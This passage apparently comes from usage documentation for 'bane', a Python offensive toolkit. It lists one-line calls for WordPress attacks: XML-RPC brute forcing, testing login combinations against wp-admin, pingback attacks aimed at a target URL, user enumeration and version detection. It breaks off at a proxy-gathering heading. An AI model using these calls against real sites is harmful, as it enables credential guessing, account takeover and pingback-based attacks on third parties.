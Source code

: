 <div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">bane.wp_xmlrpc_mass_bruteforce(link , timeout=15 )
</pre></div>

<h4>Check a Login Combo:</h4>

<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">bane.wpadmin(link , username , password , timeout=15 )
</pre></div>

<h4>Check Multiple Login Combo at once:</h4>

<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">bane.wpadmin_mass(link , word_list=["admin:123","admin:HGJJK","admin:HJKL","admin:%MLK"] , timeout=15 )
</pre></div>

<h4>Check if it's possible to performe PingBack attack through xmlrpc:</h4>

<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">bane.wp_xmlrpc_pingback(link , timeout=15 )
</pre></div>

<h4>Performe PingBack attack through xmlrpc:</h4>

<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">bane.wp_xmlrpc_pingback(link , target_url="https://www.example.com" , timeout=15 )
</pre></div>

<h4>Check if it's possible to performe BruteForce attack through xmlrpc:</h4>

<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">bane.wp_xmlrpc_bruteforce(link , timeout=15 )
</pre></div>

<h4>Users Enumeration:</h4>

<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">bane.wp_users_enumeration(link , timeout=15 )
</pre></div>

<h4>WordPress version:</h4>

<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">bane.wp_version(link , timeout=15 )
</pre></div>

# Proxies collecting:

</pre></div><h4>Mass HTTP proxies gathering:</h4>
